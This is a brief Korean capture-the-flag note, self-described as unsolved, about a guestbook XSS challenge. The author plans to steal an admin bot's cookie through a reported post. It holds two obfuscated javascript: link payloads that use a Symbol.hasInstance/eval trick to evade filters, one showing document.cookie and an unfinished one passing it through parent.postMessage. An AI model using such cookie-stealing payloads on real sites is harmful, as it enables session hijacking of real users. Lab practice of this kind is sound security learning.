 # 풀이 아직 못함

5/30

게스트북이라는 게시판에 하이퍼링크를 걸고 클릭하면 cookie가 출력되게 만듬

실제로 cookie가 확인되는 것을 보고 아이디어가 생각남

클릭하면 자신의 cookie가 출력되는 게시글을 쓰고 관리자에게 report를 하면 admin의 쿠키를 알 수 있겠구나

<br>

-> 문제 정작 내 화면에는 good이라는 문자열만 보임

-> 해결방안(아직 못해봄) window.postmessage를 이용해서 parent화면에 message출력하게 하면 내 화면에 관리자의 쿠키가 나올 수 있겠구나

지금까지 작성된 payload a는 쿠키 출력 b는 postmessage를 이용(미완...)

[a](javascript:/alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};)

[b](javascript:/parent.postMessage/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};)


<br>
P.S.

관리자에게 게시글을 report하면 하이퍼링크가 클릭될거라 강하게 믿고있음🙏🙏🙏근거없는 뇌피셜 (._. )
